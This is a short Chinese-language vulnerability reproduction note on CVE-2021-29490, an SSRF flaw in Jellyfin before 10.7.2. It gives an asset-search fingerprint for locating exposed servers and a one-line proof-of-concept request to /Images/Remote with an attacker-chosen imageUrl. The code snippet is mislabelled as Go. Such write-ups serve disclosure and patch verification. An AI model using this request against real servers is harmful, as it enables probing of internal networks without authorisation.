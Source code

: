 # Jellyfin RemoteImageController.cs SSRF漏洞 CVE-2021-29490

## 漏洞描述

Jellyfin RemoteImageController.cs 文件中存在SSRF漏洞，通过构造特殊的请求，探测内网信息

## 漏洞影响

<a-checkbox checked>Jellyfin < 10.7.2</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Jellyfin"</a-checkbox></br>

## 漏洞复现

在官方的更新文件中，查找到修改的文件

![img](../../../.vuepress/public/img/1639026469087-918a2c7f-b015-4a28-a885-00f9a7267d75.png)

官方删除了某个方法

```go
function getDisplayUrl(url, apiClient) {
        return apiClient.getUrl('Images/Remote', { imageUrl: url });
    }
```

下载漏洞版本源码，查找该接口对应的文件 

`Jellyfin.Api/Controllers/RemoteImageController.cs`

![img](../../../.vuepress/public/img/1639026630565-84275017-5bbf-4835-8d2f-c7eaf1aff942.png)其中接收的参数为 imageUrl ，后续的代码片段存在SSRF漏洞	

![img](../../../.vuepress/public/img/1639026730098-5b7473f3-32b0-47ee-bb04-6f69c13202a0.png)

构造请求POC

```go
/Images/Remote?imageUrl=http://www.baidu.com
```

![img](../../../.vuepress/public/img/1639026826430-ef5e3b8a-d7cb-4957-a71d-b9af01c57c1b.png)
